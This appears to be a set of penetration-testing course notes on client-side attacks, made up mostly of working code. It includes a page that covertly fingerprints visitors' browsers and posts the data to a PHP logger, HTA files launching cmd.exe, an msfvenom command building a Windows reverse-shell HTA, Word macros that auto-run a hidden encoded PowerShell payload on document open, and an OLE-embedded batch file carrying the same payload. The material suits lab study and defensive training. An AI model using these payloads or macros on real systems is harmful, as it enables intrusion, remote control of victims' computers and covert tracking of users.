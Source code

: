 
# Client Side Attack

### Install Fingerprintjs2 JavaScript library

```
kali@kali:/var/www/html$ sudo wget https://github.com/Valve/fingerprintjs2/archive/master.zip

kali@kali:/var/www/html$ sudo unzip master.zip

kali@kali:/var/www/html$ sudo mv fingerprintjs2-master/ fp

```

### Index.html

```
kali@kali:/var/www/html/fp$ cat index.html <!doctype html>
<html>
<head>
<title>Fingerprintjs2 test</title> </head>
<body> <h1>Fingerprintjs2</h1>
<p>Your browser fingerprint: <strong id="fp"></strong></p> <p><code id="time"/></p>
<p><span id="details"/></p>
<script src="fingerprint2.js"></script>
<script>
var d1 = new Date();
var options = {};
Fingerprint2.get(options, function (components) {
var values = components.map(function (component) { return component.value }) var murmur = Fingerprint2.x64hash128(values.join(''), 31)
var d2 = new Date();
var timeString = "Time to calculate the fingerprint: " + (d2 - d1) + "ms"; var details = "<strong>Detailed information: </strong><br />";
if(typeof window.console !== "undefined") {
for (var index in components) { var obj = components[index]; var value = obj.value;
if (value !== null) {
var line = obj.key + " = " + value.toString().substr(0, 150); details += line + "<br />";
}
}
}
document.querySelector("#details").innerHTML = details document.querySelector("#fp").textContent = murmur document.querySelector("#time").textContent = timeString
      });
  </script>
</body>
</html>
```

### Updated fp collection script

```
<!doctype html>
<html>
<head>
<title>Blank Page</title> </head>
<body>
<h1>You have been given the finger!</h1> <script src="fingerprint2.js"></script> <script>
var d1 = new Date();
var options = {};
Fingerprint2.get(options, function (components) {
var values = components.map(function (component) { return component.value }) var murmur = Fingerprint2.x64hash128(values.join(''), 31)
var clientfp = "Client browser fingerprint: " + murmur + "\n\n";
var d2 = new Date();
var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";
var details = "Detailed information: \n"; if(typeof window.console !== "undefined") {
for (var index in components) { var obj = components[index]; var value = obj.value;
if (value !== null) {
var line = obj.key + " = " + value.toString().substr(0, 150); details += line + "\n";
}
} }
var xmlhttp = new XMLHttpRequest();
xmlhttp.open("POST", "/fp/js.php"); xmlhttp.setRequestHeader("Content-Type", "application/txt"); xmlhttp.send(clientfp + timeString + details);
      });
  </script>
</body>
</html>
```


### Content of /fp/js.php

```
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n"; file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

### Update permission

```
kali@kali:/var/www/html$ sudo chown www-data:www-data fp
```

### Exploring HTML Application

poc.hta

```
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
Updated File

```
<html>
<head>
<script>

var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);

</script>

</head>
<body>

<script>
self.close();
</script>

</body>
</html>

```

### Shell Code Generation
```
kali@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

### Microsoft Word Macro

#### Macro opening cmd.exe

```
Sub MyMacro() 
CreateObject("Wscript.Shell").Run "cmd"
End Sub
```
Since Office macros are not executed automatically, we must make use of two predefined procedures, namely the AutoOpen procedure, which is executed when a new document is opened and the Document_Open355 procedure, which is executed when an already-open document is re- opened. Both of these procedures can call our custom procedure and therefore run our code.

```
Sub AutoOpen() 
 MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro() 
 CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

#### Macro with shell code

```
Sub AutoOpen() 
    MyMacro
End Sub

Sub Document_Open() 
    MyMacro
End Sub

Sub MyMacro()
Dim Str As String
Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB" Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A" Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg" Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY" Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB" ...
Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac" Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB" Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA" Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA" Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK" Str = Str + "QA="
CreateObject("Wscript.Shell").Run Str 
End Sub
```
python ./split.py |  xclip -selection clipboard

### MS Document Abuse

we can still leverage Object Linking and Embedding (OLE)360 to abuse Microsoft Office’s document-embedding feature

content of launch.bat
```
START cmd.exe
```

Replace cmd.exe with shell code

```
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

Bypass protected view using Microsoft Publisher



